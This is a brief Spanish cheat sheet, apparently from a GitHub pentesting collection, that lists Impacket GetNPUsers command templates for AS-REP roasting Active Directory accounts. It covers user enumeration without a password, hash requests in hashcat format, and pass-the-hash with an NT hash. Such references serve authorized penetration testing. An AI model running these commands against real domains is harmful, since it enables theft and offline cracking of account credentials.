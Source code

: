 # GetNPUsers Cheat Sheet

#### Ataque TGT usando un archivo de listado de posbles usuarios
```
impacket-GetNPUsers <DOMAIN>/ -no-pass -usersfile <FILE-USERS>
```

#### ASRepRoast Attack - con usuario y contraseña que tengamos
```
impacket-GetNPUsers -dc-ip <IP> -request -outputfile ASREProastables.txt <DOMAIN>/<USER>
```

#### ASRepRoast Attack - con usuario y contraseña que tengamos y obteniendo el resultado en formato HashCat
```
impacket-GetNPUsers -dc-ip <IP> -request -format hashcat -outputfile ASREProastables.txt <DOMAIN>/<USER>
```

#### ASRepRoast Attack - usando Hash NT de un usuario que tengamos
```
impacket-GetNPUsers -dc-ip <IP> -request -outputfile ASREProastables.txt -hashes '<LM-HASH>:<NT-HASH>' <DOMAIN>/<USER>
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)